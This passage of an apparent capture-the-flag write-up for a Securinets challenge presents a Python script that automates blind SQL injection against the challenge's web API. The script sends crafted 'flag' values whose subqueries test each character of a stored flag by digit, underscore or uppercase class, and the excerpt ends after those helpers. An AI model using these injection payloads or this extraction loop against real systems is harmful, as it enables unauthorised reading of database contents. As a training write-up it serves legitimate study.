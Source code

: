 ```ERROR: Flag should start with Securinets{ and end with } (SQLSTATE P0001)```
wrapping up what we have done so far, using python to automate the process, we create a script that for each character in the flag, we will:
- check if it's a number, an uppercase letter, a lowercase letter, or an underscore
- try to sleep for the corresponding amount of seconds
- iterate over the interval [nbr of seconds - 2 or 3, nbr of seconds] to guess the correct character
- append the character to the flag

Here is our script:

```python
import requests as r
import time

def get_payload(payload, *params):
    for p in list(params):
        payload = payload.replace("?", str(p), 1)
    return payload

def request(payload):
    try:
        url = "https://hmlndr-api.onrender.com/tasks/1/submit"
        data = {"flag": payload}
        rs = r.post(url, json=data).text
        print(rs) # for debugging
        return  rs
    except Exception as e:
        print("Error happened due to connection, retrying...")
        return request(payload)

def is_number(idx):
    print(f"is #{idx} a number?")
    payload = get_payload(
        "Securinets{' || (select '}' from tasks where substring(flag, ?, 1) ~ '^[0-9]+$') || '",
        idx
    )
    response = request(payload)
    if "Wrong flag" in response:
        return True
    return False

def is_underscore(idx):
    print(f"is #{idx} an underscore?")
    payload = get_payload(
        "Securinets{' || (select '}' from tasks where substring(flag, ?, 1) = '_') || '",
        idx
    )
    response = request(payload)
    if "Wrong flag" in response:
        return True
    return False

def is_uppercase(idx):
    print(f"is #{idx} an uppercase?")
    payload = get_payload(
        "Securinets{' || (select '}' from tasks where substring(flag, ?, 1) ~ '^[A-Z]+$') || '",
        idx
    )
    response = request(payload)
    if "Wrong flag" in response:
        return True
    return False

```